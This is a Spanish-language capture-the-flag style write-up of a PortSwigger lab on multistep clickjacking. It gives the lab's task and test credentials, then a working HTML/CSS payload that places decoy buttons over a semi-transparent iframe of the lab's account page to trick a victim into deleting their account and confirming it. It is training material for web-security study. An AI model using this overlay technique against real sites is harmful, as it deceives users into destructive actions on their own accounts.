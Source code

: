 <figure><img src="../../.gitbook/assets/image (1503).png" alt=""><figcaption></figcaption></figure>

## Lab: Multistep clickjacking

### Enunciado

**Este laboratorio tiene una funcionalidad de cuenta protegida con un token CSRF y también con un cuadro de diálogo de confirmación para evitar ataques de Clickjacking. Construye un ataque que engañe al usuario para que haga clic en el botón de eliminar cuenta y luego en el cuadro de confirmación, usando las acciones señuelo "Click me first" y "Click me next".** Necesitarás **dos elementos** para este laboratorio.

**Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:**

* **Usuario:** `wiener`
* **Contraseña:** `peter`

> La víctima usará **Chrome**, así que asegúrate de **probar tu exploit en ese navegador**.

### Resolución

Nos logueamos y vemos que para eliminar la cuenta hay que también confirmar por lo que hay que realizar dos movimientos.

```
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:495px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:285px;
		left:200px;
	}
</style>
<div class="firstClick">Click first</div>
<div class="secondClick">Click next</div>
<iframe src="https://0a9f00a704358e9b8094f35f0073009c.web-security-academy.net/my-account"></iframe>
```

